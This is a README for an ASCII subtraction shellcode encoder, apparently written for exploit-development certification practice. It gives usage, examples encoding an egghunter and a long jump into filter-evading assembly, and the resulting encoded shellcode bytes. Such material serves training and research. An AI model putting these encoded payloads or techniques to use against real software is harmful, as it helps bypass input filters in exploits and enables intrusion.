

## ASCII Subtraction Encoder

----------------------------

       


<p align="justify">This tool has been created while i was preparing for the CTP/OSCE certification from offensive security. It generates nasm friandly assembly instructions of a customized Ascii Subtraction Encoder. The development of this tool is based on the description of the Ascii Subtraction Encoder logic as explained at the following blog post from Vello Security</p>


[Vello Security - Carving Shellcode using restrictive character sets](https://vellosec.net/blog/exploit-dev/carving-shellcode-using-restrictive-character-sets/)


### Compilation

----------------

For x86 architectures run 

```
gcc sub.c -o sub
```

For x86_64 architectures run 

```
gcc -m32 sub.c -o sub
```


### Usage

-----------------------


Running the executable without providing any arguments will show the usage information


```
./sub
```

<dl>
<dd style=text-align:justify>
The following options can be used 
</dd></dl>

```
Args:
	 [-s] The shellcode to encode
	 [-j] Encode a long jump
	 [-b] The bad characters to filter out
```

<dl>
<dd style=text-align:justify>
The following screenshot shows the usage information
</dd></dl>


<br><br>

### Examples


Now, lets say we want to encode the following egghunter shellcode

```
\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x57\x30\x30\x54\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7
```

The following command can be used to run the executable and produce the Ascii Subtraction Encoder instructions which used to encode the egghunter

```
./sub -s \x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x57\x30\x30\x54\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7 -b \x00
```

In case we dont have bad chars, we can at least use the <code>-b</code> option to avoid having null bytes from the final encoded shellcode. At this point the program cannot be used without filtering out any bad chars. 

The following screenshot shows the Sub encoder in action 


<br><br>

In case we want to save the instructions direclty to a nasm file we can use the following command 

```
./sub -s \x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x57\x30\x30\x54\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7 -b \x00 > test.nasm

```

Now we can compile the assembly code 

```
nasm -f win32 -o test.o test.nasm
ld -o test test.o
```

At this point we can produce the final encoded shellcode 

```
root@kali:/home/kali/Desktop# objdump -d ./test|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x79\x09\x80\x09\x2d\x0c\x09\x76\x0d\x2d\x06\x06\x0a\x01\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x0a\x26\x0e\x0a\x2d\x2f\x4f\x06\x24\x2d\x18\x15\x01\x22\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x43\x1b\x0f\x01\x2d\x59\x5f\x64\x15\x2d\x34\x31\x03\x12\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x0c\x0c\x7e\x0a\x2d\x04\x25\x25\x83\x2d\x01\x16\x05\x42\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x26\xab\x0c\x60\x2d\x69\x38\x4f\x20\x2d\x35\x17\x4a\x0b\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\xca\x23\x03\x35\x2d\x29\x6d\x21\x58\x2d\x0b\x17\x0e\x44\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x1a\x36\x17\x66\x2d\xca\x6f\x60\x27\x2d\x0d\x18\x36\x08\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x09\x10\x05\xdc\x2d\x4f\x52\x1f\xe3\x2d\x42\x1c\x11\x41\x50"
```

In the same manner we can also use the Sub encoder to encode a long jump as well. First we will generate the opcodes with <code>msf-nasm_shell</code>


```
root@kali:/home/kali/Desktop# msf-nasm_shell
nasm > jmp $-299
00000000  E9D0FEFFFF        jmp 0xfffffed5
nasm >
```  

All we have to do now is to use the Sub encoder in order to generate the encoded shellcode. Because the shellcode is not devisible by 4, we will add some nop padding to the shellcode which will not affect its functionality. ( we have chosen to use \x90 but any other nop padding can also be applied as long as it is acceptable by the target program )  

```
root@kali:/home/kali/Desktop/Exam# ./sub -j \x90\90\xE9\xD0\xFE\xFF\xFF\x90 -b \x00

;                                    .   ,
;                                           .c. ;.
;                     ..  ..    .     ..,;clc;x'.l
;                    'kkoldxl;:o.       ,ldkkkkkld:
;                    ,oxkkllkkk:.     .dkkkkkxkkkkkl.
;                       ;kkkkkkkko,. .xkkkk:. .ckkkcx.
;                        ,ko,;dkkk:. ,;kkkx     ;kklo:
;                         .    ckkko. :kkkk.    ,kkkkk,
;                              .xkkc; ckkkk;    .;cokkkd.
;                               okkk,.ckkkkk'   ,   .:kk.
;                               xkkxc ,odkkkk:. .l'.  ;:
;                              .kkko;  c.okkkkkxookkxo.
;                              :kkkd.  .,:lkkkkkkkkkl:d,..
;                    .:. ''.   xkkdl   ..:dkkkkkklxkkkkkkk,
;                     ccod:,. .kkk;'   .xkkkxdkkk,.kkkxdxkl
;                    .xkkkkko..kkk.   .xkkko..xkkd ';.  .,.
;                    lkkkkkkk:.kkk.   ;ckkx.  ckkk. ... c.
;                   ;lkk..lkkd,kkk.   .kkko   ;kkk. .;dcd.
;                   :dkk. 'kkx.okkl   ,kkkk.  :kkk.'dkkkkd.
;                  .xkc.  ;kkk''kkk,  'kkkkx. okkk.:kkdckko.
;                  lk'   .xkko. lkkk:..dlkkkx,kkkx.kkk. okd:
;                  .:    ,kkx,  .okkkd';.dkkkkkkkd.kkk. 'cxk,
;                        ;kkd    .ckkkkd:;kkkkkkkl.kkk;   .oc
;                        ,kkk.     ,kkkkkkkkkkkkk, ldkk.   ..
;                        .xkkx;.    :kkkkkkkkkkkk. .:kk,
;                         ,kkkkkdl:;okkkkkkkkkkk;   lkk.
;                          ,kkkkkkkkkkkkkkkkkkko.';dkkc
;                           .lkkkkkkkkkkkkkkkkkkkkkkko.
;                       .,. :xkkkkkkkkkkkkkkkkkkkkkkd.
;

; Author: Xenofon Vassilakopoulos
; @xvass
; Version 1.0


global _start
section .text

_start:


;-------------------------------------------


; Token : \x90\xff\xff\xfe

; 0x0 - 0x90fffffe = 0x6f000002


and eax, 0x50505050
and eax, 0x2a2a2a2a
sub eax, 0x0d1a0f01
sub eax, 0x4187b9ca
sub eax, 0x205e3737
push eax


;-------------------------------------------


; Token : \xd0\xe9\x90\x90

; 0x0 - 0xd0e99090 = 0x2f166f70


and eax, 0x50505050
and eax, 0x2a2a2a2a
sub eax, 0x1c05251e
sub eax, 0x0c0c3b3d
sub eax, 0x07050f15
push eax

```

In case we have many bad chracters, we can use the Sub encoder with the same ease as we did before. Lets say we have the following bad characters 

```
\x0a\x0d\x2f\x3a\x3f\x40\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

In order to generate our encoded payload eliminating the bad characters, we should run the following command from kali linux

```
./sub -s \x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x57\x30\x30\x54\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7 -b \x0a\x0d\x2f\x3a\x3f\x40\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```


In the same manner as we previously presented, we will redirect the output into the <code>test.nasm</code> file in order to compile it with nasm as we did in the previous example. 


```bash
./sub -s \x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x57\x30\x30\x54\x89\xd7\xaf\x75\xea\xaf\x75\xe7\xff\xe7 -b \x0a\x0d\x2f\x3a\x3f\x40\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff > test.nasm
```

Then, we will compile the <code>test.nasm</code> file as follows  

```
nasm -f win32 -o test.o test.nasm
ld -o test test.o
```

Finally, we will use <code>objdump</code> to generate our sub encoded shellcode 

```
root@kali:/home/kali/Desktop# objdump -d ./test|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x3c\x01\x67\x0e\x2d\x4a\x0e\x78\x06\x2d\x05\x09\x21\x03\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x03\x1f\x02\x0c\x2d\x38\x66\x0f\x3c\x2d\x16\x05\x04\x08\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x12\x4c\x0b\x06\x2d\x79\x5e\x47\x14\x2d\x45\x01\x24\x0e\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x09\x34\x3b\x44\x2d\x05\x0c\x49\x5e\x2d\x03\x07\x24\x2d\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x47\x5c\x38\x54\x2d\x5e\x7f\x5f\x26\x2d\x1f\x1f\x0e\x11\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x3b\x11\x15\x34\x2d\x75\x71\x1a\x66\x2d\x4e\x25\x03\x37\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x33\x2c\x5f\x50\x2d\x70\x73\x28\x23\x2d\x4e\x1e\x26\x22\x50\x25\x50\x50\x50\x50\x25\x2a\x2a\x2a\x2a\x2d\x46\x34\x12\x57\x2d\x51\x26\x1d\x60\x2d\x03\x24\x06\x49\x50"
```


